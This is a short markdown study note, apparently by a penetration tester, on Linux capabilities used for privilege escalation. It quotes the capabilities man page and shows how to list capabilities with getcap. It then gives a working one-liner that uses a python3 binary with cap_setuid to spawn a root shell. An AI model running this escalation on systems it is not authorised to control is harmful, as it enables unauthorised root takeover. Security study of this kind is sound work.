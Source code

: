 ```yaml
---
aliases:
  - SUID (Set User ID)
tags:
  - tech
  - cybsec
  - linux
  - privilege_escalation
  - privesc
  - capabilities
author: Mehdi N Tehrani
creat_date: 2023-12-17
category: Cyber Security
subcategory: Linux SUID
---
```


# man page
https://man7.org/linux/man-pages/man7/capabilities.7.html
Description:
For the purpose of performing permission checks, traditional UNIX implementations distinguish two categories of processes:
privileged processes (whose effective user ID is 0, referred to as superuser or root), and unprivileged processes (whose effective UID is nonzero).  Privileged processes bypass all kernel permission checks, while unprivileged processes are subject to full permission checking based on the process's credentials (usually: effective UID, effective GID, and supplementary group list).

Starting with Linux 2.2, Linux divides the privileges traditionally associated with superuser into distinct units,
known as capabilities, which can be independently enabled and disabled.  Capabilities are a per-thread attribute.

# find capabilities
```
$ getcap -r / 2>/dev/null
```

Example: 
output in kali
```
/usr/bin/ping cap_net_raw=ep
/usr/bin/dumpcap cap_net_admin,cap_net_raw=eip
/usr/bin/fping cap_net_raw=ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin=ep
```

# Exploit
if the following capability is found on python
```
/usr/bin/python3 = cap_setuid+ep
```
then the following gives us root access:
```
$ /usr/bin/python3 -c 'import os; os.setuid(0);  os.system("/bin/bash")'
# whoami
root
```
